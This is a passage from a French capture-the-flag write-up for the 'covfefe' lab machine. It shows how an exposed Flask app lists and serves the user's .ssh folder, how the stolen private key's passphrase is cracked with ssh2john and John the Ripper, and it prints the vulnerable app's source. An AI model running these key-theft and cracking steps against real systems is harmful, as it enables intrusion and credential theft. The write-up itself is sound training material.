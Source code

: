 Si on demande un dossier (sans slash final) alors on obtient un listing sous la forme d'une liste JSON :

```console
$ curl http://192.168.56.195:31337/.ssh
['id_rsa', 'authorized_keys', 'id_rsa.pub']
```

La clé privée `id_rsa` est récupérable. Cette dernière étant protégée par une passphrase, j'utilise `ssh2john` pour en extraire un hash que je casse ensuite :

```console
$ python3 ssh2john.py id_rsa > /tmp/hashes.txt
$ john --wordlit=wordlists/rockyou.txt /tmp/hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
starwars         (id_rsa)
```

Il nous reste à rouver le nom d'utilisateur correspondant à cette clé et cela peut s'obtenir en lisant la fin de la clé publique (`id_rsa.pub`) : `simon@covfefe`

Une fois connecté avec la clé et la passphrase on ne découvre pas grand-chose de plus :

```console
simon@covfefe:~$ id
uid=1000(simon) gid=1000(simon) groups=1000(simon),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
simon@covfefe:~$ ls -al
total 36
drwxr-xr-x 3 simon simon 4096 Jul  9  2017 .
drwxr-xr-x 3 root  root  4096 Jun 28  2017 ..
-rw------- 1 simon simon   19 Jun 28  2017 .bash_history
-rw-r--r-- 1 simon simon  220 Jun 28  2017 .bash_logout
-rw-r--r-- 1 simon simon 3526 Jun 28  2017 .bashrc
-rwxr-xr-x 1 simon simon  449 Jul  9  2017 http_server.py
-rw-r--r-- 1 simon simon  675 Jun 28  2017 .profile
-rw-r--r-- 1 simon simon   70 Jul  9  2017 robots.txt
drwx------ 2 simon simon 4096 Jun 28  2017 .ssh
```

Le script Python correspond à l'appli Flask qui tournait sur le port 31337 :

```python
#!/usr/bin/env python3

from flask import Flask
from os import environ, listdir

root = environ['HOME']
sauce = '/.ssh'

app = Flask(__name__, static_folder=root, static_url_path='')

@app.route(sauce)
def sauce_content():
    return str(listdir(root + sauce)), 200

@app.route('/taxes/')
def taxes_content():
    return 'Good job! Here is a flag: flag1{make_america_great_again}'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=31337)
```